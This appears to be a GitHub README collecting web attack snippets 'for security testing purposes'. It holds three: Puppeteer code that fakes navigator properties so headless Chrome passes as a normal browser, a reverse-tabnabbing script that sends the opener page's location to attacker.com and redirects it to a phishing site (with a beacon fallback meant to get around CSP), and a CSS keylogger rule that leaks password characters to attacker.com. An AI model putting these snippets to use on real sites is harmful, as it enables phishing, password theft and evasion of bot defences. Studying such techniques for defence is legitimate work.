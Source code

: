 # PEN
A (not-so-well)curated list of script and attack for security testing purposes and general knowledge.
  
## JavaScript:
  - #### Bypass `Chrome Headless` detection:
    ```javascript
    // Pass the User-Agent Test.
    const userAgent = 'Mozilla/5.0 (X11; Linux x86_64)' +
        'AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.39 Safari/537.36';
    await page.setUserAgent(userAgent);
    
    await page.evaluateOnNewDocument(() => {
      // Pass the Webdriver Test.
      Object.defineProperty(navigator, 'webdriver', {
        get: () => false,
      });
      
      // Pass the Chrome Test.
      window.navigator.chrome = {
        // We can mock this in as much depth as we need for the test.
        runtime: {}, // etc.
      };
      
      // Pass the Plugins Length Test.
      Object.defineProperty(navigator, 'plugins', {
        // Overwrite the `plugins` property to use a custom getter.
        // This just needs to have `length > 0` for the current test,
        // but we could mock the plugins too if necessary.
        get: () => [1, 2, 3, 4, 5],
      });
      
      // Pass the Languages Test.
      Object.defineProperty(navigator, 'languages', {
        get: () => ['en-US', 'en'],
      });
      
      // Pass the Permissions Test.
      const originalQuery = window.navigator.permissions.query;
      return window.navigator.permissions.query = (parameters) => (
        parameters.name === 'notifications' ?
          Promise.resolve({ state: Notification.permission }) :
          originalQuery(parameters)
      );
    });    
    ```
    References:
    - https://intoli.com/blog/not-possible-to-block-chrome-headless/
    
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener && window.opener.location) {
      // Imagine this script as a library added to an attacker official website.
      // If this site is opened by an user that clicked to an `a` element
      // with target attribute setted to '_blank', the browser will initialize an `opener` object,
      // referred to the browser window which the user came from.
      // This weakness could be used to redirect the opener window to a phishing site.

      let randomUserID = Math.random().toString().slice(2,),
        urlStartPhishing =
          `//attacker.com/new/phishing/?location=${window.opener.location}&user=${randomUserID}`,
        redirect2Phishing = () => {
          // Wait for the deployment of the phishing site.
          setTimeout(() => {
            window.opener.location.assign(`//attacker.com/${randomUserID}/${window.opener.location}`)
          }, 8000)
        };

      fetch(urlStartPhishing)
        .then(response => {
          redirect2Phishing()
        })
        .catch(err => {
          // Error, maybe CSP :(

          let bypassCSP = new Image();
          bypassCSP.src = urlStartPhishing;
          redirect2Phishing()
        });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
    - https://sites.google.com/site/bughunteruniversity/nonvuln/phishing-with-window-opener
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
